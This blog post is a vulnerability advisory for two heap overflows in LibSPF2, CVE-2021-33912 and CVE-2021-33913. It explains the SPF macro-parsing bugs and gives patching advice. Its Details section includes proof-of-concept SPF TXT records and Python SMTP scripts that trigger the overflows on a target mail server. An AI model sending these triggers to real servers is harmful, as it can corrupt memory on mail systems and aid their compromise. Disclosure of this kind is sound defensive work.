 ```yaml
---
title: "CVE-2021-33912 and CVE-2021-33913: Heap overflows in email validation library LibSPF2"
layout: post
excerpt_image: /assets/images/spf.jpeg
tags: [spf, email]
---
```


Two bugs related to the parsing of SPF (Sender Policy Framework) records have been found in LibSPF2, a library commonly used to determine the validity of email received to a server. One of these bugs allows for relatively flexible memory corruption in the heap, while the other affects only up to four bytes past the end of an allocated buffer. Both bugs have the potential to be used to carry out 0-click remote code execution, though modern memory defenses may reduce the possibility of such an attack. These vulnerabilities are especially important to note for servers designed to receive or exchange email, as a successful exploit would compromise the privacy and security of email accounts on a given email server. This could additionally lead to the compromise of other online accounts (such as those that would send password reset links to the compromised email account), or serve as a starting point for more sophisticated phishing/spoofing attacks. Both heap overflows can be triggered remotely by first publishing a particular TXT record for an arbitrary domain and then sending an email from that domain to an affected email server.

### Recommendations

Versions of LibSPF2 before 1.2.11 are affected by both of these vulnerabilities.

If you are a mail exchange, you should check to see whether your servers use a vulnerable version of LibSPF2. You should check any anti-SPAM devices you may run in addition to mail server software.

If you are a vendor of mail server software or anti-SPAM services, or if you manage packages for an operating system, you should determine whether LibSPF2 is used in any of your configurations and migrate to LibSPF2 1.2.11. This version can be found at:

[https://github.com/shevek/libspf2/tree/8131fe140704eaae695e76b5cd09e39bd1dd220b](https://github.com/shevek/libspf2/tree/8131fe140704eaae695e76b5cd09e39bd1dd220b)

If you use another implementation of SPF, it is unlikely that you will be affected by this issue--the parsing bug is due to specific errors made in the LibSPF2 codebase.

### Details

The Sender Policy Framework specification ([RFC 7208](https://datatracker.ietf.org/doc/html/rfc7208)) provides several different mechanisms and macros to provide some level of flexibility for SPF policies. 
SPF macros are expanded at the time an SPF policy is retrieved by an email server, and they are meant to represent information specific to a given email exchange (such as the HELO domain or IP address that email is being received from). 

SPF macros include several indicators that can alter the way macro expansions occur, including options that reverse and/or truncate portions of the macro expansion and an option to URL-encode the resulting string. Both vulnerabilities in LibSPF2 were found in code implementing these macro options.

**CVE-2021-33912** is the result of incorrect parsing in the URL-encode phase of macro expansion. During this phase, any non-ASCII or special characters are converted into their hexadecimal representation (' ' -> '%20', for instance); LibSPF2 does this through a call to `sprintf`. The library implicitly assumes the function will only ever output 4 characters, but certain inputs (0x80-0xff) will cause `sprintf` to overwrite 8 characters, thereby overflowing the buffer allocated to store the expansion. 

As an example, the following TXT record and SMTP query could be used to trigger a buffer overflow:

TXT record for 'example.com': `v=spf1 %{L}.example.com -all`

SMTP query:

{% highlight python linenos %}
from smtplib import SMTP

TARGET_IP = '192.0.2.1'
TARGET_EMAIL = 'example@nathanielbennett.com'

with SMTP() as s:
    s.connect(host=TARGET_IP, port=25)
    s.ehlo(name="example.com")
    s.send(b'MAIL FROM:\xff@example.com>\r\n')
    s.docmd("RCPT", "TO:<%s>" % (TARGET_EMAIL,))
    s.docmd("DATA")
    s.send(bytes("\r\n\r\n.\r\n", 'ascii'))
    s.quit()
{% endhighlight %}

Note: some email server and spam filter implementations reject non-ASCII input in SMTP commands; triggering CVE-2021-33912 is a much more involved process when this is the case, though it is still possible.

**CVE-2021-33913** involves an error during the domain label reversal/truncation phase of macro expansion. In the event that a macro is reversed, truncated _and_ URL-encoded during expansion, the buffer of the macro output is erroneously sized based on the length of the leftmost label in the domain, rather than the size of the whole domain. This means that an attacker may use a domain such as "b.AAAAAAAAAAAAAAAAAAAAAA.example.com" to overflow the heap with 'A' characters. 

The following TXT record and SMTP query could be used to trigger a buffer overflow:

TXT record for 'example.com': `v=spf1 %{H5r}.example.com -all`

SMTP query:

{% highlight python linenos %}
from smtplib import SMTP

TARGET_IP = '192.0.2.1'
TARGET_EMAIL = 'example@nathanielbennett.com'

with SMTP() as s:
    s.connect(host=TARGET_IP, port=25)
    s.ehlo(name="b.AAAAAAAAAAAAAAAAAAAA.example.com")
    s.docmd("MAIL", "FROM:<test.example.com>")
    s.docmd("RCPT", "TO:<%s>" % (TARGET_EMAIL,))
    s.docmd("DATA")
    s.send(b'\r\n\r\n.\r\n')
    s.quit()
{% endhighlight %}

CVE-2021-33913 provides greater control on the size of the allocated buffer, the amount of data that can be written into the heap and the byte values that can be used; as such, it is of greater concern than CVE-2021-33912.

### Conclusion

Email has inadvertantly become a centralized location for backup authentication--most online accounts require an email address for the purpose of having somewhere to communicate password reset links to. As such, the risks of a compromised email server are no longer limited to the loss of privacy of users' emails. LibSPF2 is not used by any of the biggest email providors (Gmail, Microsoft, Yahoo and the like), though many smaller providers have been measured to be affected. Multiple services (including Exim) make use of the library.

There are options for SPF validation written in memory-safe code (such as pyspf/python-policyd-spf and Mail::SPF, written in Python and Perl respectively). Both of these are up-to-date with the latest RFC. LibSPF2 hasn't been under active development/maintenence for a couple years now--the last three commits to the code before recent CVE fixes were in 2017, 2016 and 2015. The sensible recommendation may be to switch configurations to one of the above implementations if your email server currently uses LibSPF2. It's just too easy for vulnerabilities to pop up in C code, especially when it comes to string parsing.

Special thanks goes to shevek, Paulo Smorigo and the IMAAL lab for all the help with patching and measuring these vulnerabilities! 

<!--No thanks goes to Facebook, who awarded a bug bounty of $0 upon receiving an early notification of these vulnerabilities being present in their system.-->
